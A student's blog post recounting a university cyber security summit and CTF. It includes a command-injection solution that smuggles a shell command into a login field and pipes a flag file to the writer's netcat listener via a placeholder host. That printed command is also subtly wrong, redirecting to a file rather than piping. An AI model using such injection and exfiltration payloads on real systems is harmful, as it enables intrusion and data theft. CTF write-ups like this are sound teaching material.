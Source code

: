 ```yaml
---
layout: blog
---
```


This Saturday I had the great opportunity of participating in Virginia Tech's Cyber Security Summit, a day-long event which included a guest speaker and CTF competition.  Having been competing in CTFs for a few months now I thought this would be a great opportunity to see how these competitions are  done at higher, more advanced levels, and how the subject matter of computer security is applied.

The guest speaker for the event did a great job of detailing how a variety of web attacks can have real-life implications in industrial plants and businesses.  He used multiple intuitive Windows tools and managed to easily own multiple systems using vulnerabilities inherent in thousands of sensitive applications on the web, a process I found very interesting and frightening at the same time.

Although this was a great insight on the real world of computer security and the issues it brings when neglected, the fun began with the CTF competition. Since I have never done an in-person CTF, only on-line qualifiers, I had no idea what to expect and came in with high hopes.  I was not dissapointed in the slightest, as this was a very well-designed and exciting competition.

The organizers of the event began by posting a single IP address on the whiteboard, which when put into a web browser brought up a blank page.  After some thinking and playing around we realized that the IP was an internal one in the building network, as it was very simple and started with a 10, and so we decided to use `nmap` to find IPs with similar starting digits.  We found about 7 different IPs and those led to challenges and the scoring site.  I think the way they decided to start the CTF was very resourceful, taking advantage of the physical location, and set the stage for the rest of the competition.

## Magical netcat

My four-person team managed to solve two of the challenges to finish in 4th place. I mostly worked on the challenge hosted on server 16, and consisted of a simple HTML login with no information and a title saying "Create a Shell Account!".  Whatever was submitted to the login field returned a screen saying that the account was created.  Although at first we were stumped on what to do with the challenge, as it was invulnerable to SQL injections, a few hints dropped by the organizers led us to think that maybe the login could be used as a full linux shell.

I realized after that revelation that the script was simply inputing the login information from the field into the bash command `useradd`, and so by adding a semicolon to the end of the command, `useradd;`, we would be able to execute any bash command. The only problem was that after execution the page simply stated that the account was created and gave no mention as to what the command did or what output it produced.  After considering few different ways of overcoming this dilema, I decided that setting up a `netcat` service to listen on my computer and then pipe the result from the login into netcat to my computer would be the most efficient way to see the results.  After exploring the filesystem by executing `ls` for a few minutes I found the `flag.txt` file, completing the challenge.  The commands I ended up using were these:

Laptop: `nc -l 8080 > flag.txt`

Server (Username field): `a; cat ../../../../flag.txt > nc MYIP 8080`

Overall I found the event to be a great experience, allowing me to see how computer security ties into real life and also providing my team and I with an amazingly fun and entertaining CTF. Thanks to everyone who organized it and I can't wait to attend next year!
